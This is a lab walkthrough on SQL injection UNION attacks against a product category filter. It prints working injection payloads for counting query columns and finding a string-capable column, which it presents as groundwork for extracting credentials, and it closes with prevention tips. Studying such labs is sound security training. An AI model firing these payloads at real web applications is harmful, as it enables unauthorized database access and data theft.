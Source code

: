 # 🔍 Lab Walkthrough: SQL Injection UNION Attack — Finding a Column Containing Text

> **Lab Title:** SQL injection UNION attack, finding a column containing text

> **Difficulty:** Practitioner

> **Status:** 🧪 solved

> **Goal:** Identify which column in the query can hold string data by injecting a test value.



## 🎯 Objective

In this lab, you must:
- Determine how many **columns** are returned by the original query
- Find out **which column accepts string values**
- Inject a **random string** provided by the lab to confirm it's visible in the app response

This step is crucial for later stages where you'll extract sensitive data like usernames, passwords, or flags via `UNION SELECT`.



## 🛠 Step-by-Step Guide

### 🔹 Step 1: Locate the Vulnerable Input

The vulnerable input is the **product category filter**, usually passed as a parameter in the URL:

```
GET /filter?category=Electronics
```

You suspect the backend runs a query like:

```sql
SELECT name, description, price FROM products WHERE category = 'Electronics'
```

So your job is to **inject into the `category` parameter**.


### 🔹 Step 2: Confirm SQLi Vulnerability

Try breaking the query with a single quote:

```
GET /filter?category=Electronics'
```

➡️ If the page errors or behaves oddly → Vulnerable ✅

Now try bypassing the rest of the query:

```
GET /filter?category=Electronics'--
```

➡️ If it loads normally → Injection confirmed ✅



### 🔹 Step 3: Determine Number of Columns

Use the `UNION SELECT NULL` method to find the number of columns:

Try this payload:

```
GET /filter?category='+UNION+SELECT+NULL,NULL,NULL--
```

✅ If no error and an extra row appears → The query returns **3 columns**



### 🔹 Step 4: Test Which Column Accepts String Data

Now inject a **test string** (like `'gvWwT5'`) into each column one at a time. This helps determine which column can display string-based data (e.g., usernames, secrets).

#### Try These Payloads:

1. Inject into the **first column**:
```
GET /filter?category='+UNION+SELECT+'gvWwT5',NULL,NULL--
```

2. Inject into the **second column**:
```
GET /filter?category='+UNION+SELECT+NULL,'gvWwT5',NULL--
```

3. Inject into the **third column**:
```
GET /filter?category='+UNION+SELECT+NULL,NULL,'gvWwT5'--
```

👀 Look for where `'gvWwT5'` appears on the page — that tells you which column accepts string values.



## 🧩 Example Lab Solution

Let’s say the lab gives you the random string: `gvWwT5`

Try this payload:

```
GET /filter?category='+UNION+SELECT+NULL,'gvWwT5',NULL--
```

✅ If `gvWwT5` appears in the second column of the response → You’ve found a usable column!



## 📊 Summary Table

| Column | Payload | Result |
|--------|---------|--------|
| 1st | `' UNION SELECT 'gvWwT5',NULL,NULL--` | ❌ Error or not shown |
| 2nd | `' UNION SELECT NULL,'gvWwT5',NULL--` | ✅ Value appears |
| 3rd | `' UNION SELECT NULL,NULL,'gvWwT5'--` | ❌ Error or not shown |

📌 **Conclusion:** The **second column** accepts string values — use it for extracting real data next.



## 💡 Why This Matters

Knowing which column accepts strings allows you to:
- Extract usernames, passwords, API keys, etc.
- Read version info (`@@version`, `version()`)
- Retrieve internal flags or tokens

Without this step, even if you know the number of columns, you won’t be able to see meaningful results from your injections.


## 🛡️ Prevention Tips

To avoid this kind of vulnerability in production apps:

- ✅ Use **parameterized queries** (no string concatenation!)
- ✅ Sanitize and validate all user inputs
- ✅ Avoid displaying raw database errors to users
- ✅ Limit what the application's DB user can do
- ✅ Use a Web Application Firewall (WAF) to detect common SQLi patterns


## 🧠 Bonus: What Happens Behind the Scenes?

When you inject a string like `'gvWwT5'` into a numeric column (e.g., `INT`), the database tries to convert the string to a number and fails:

```sql
Conversion failed when converting the varchar value 'gvWwT5' to data type int.
```

But if the column accepts strings (like `VARCHAR`, `TEXT`), it displays your injected value without issue.

That’s how you identify a usable column.


